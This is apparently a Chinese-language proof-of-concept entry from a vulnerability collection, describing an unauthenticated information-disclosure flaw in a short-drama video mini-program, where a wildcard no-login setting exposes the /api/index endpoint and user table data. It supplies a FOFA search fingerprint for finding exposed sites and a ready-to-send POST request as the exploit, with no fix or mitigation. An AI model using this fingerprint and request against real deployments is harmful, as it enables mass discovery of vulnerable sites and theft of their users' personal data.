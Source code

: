 # 短剧影视小程序前台未授权漏洞

**在 /api/controller/Index.php 控制器的index方法中，很明显地存在 where 查询网站信息及User表中的字段，并且将所有用户枚举出来，且因为 $noNeedLogin = ['*'] 导致所有接口都无权限验证.**

## fofa

```yaml
"/VwmRIfEYDH.php"
```

## poc

```javascript
POST /api/index HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36

```

![image-20240902103321159](C:/Users/26927/AppData/Roaming/Typora/typora-user-images/image-20240902103321159.png)



## 漏洞来源

- https://mp.weixin.qq.com/s/3WYJzQnjl8hP7oXVZUEQuA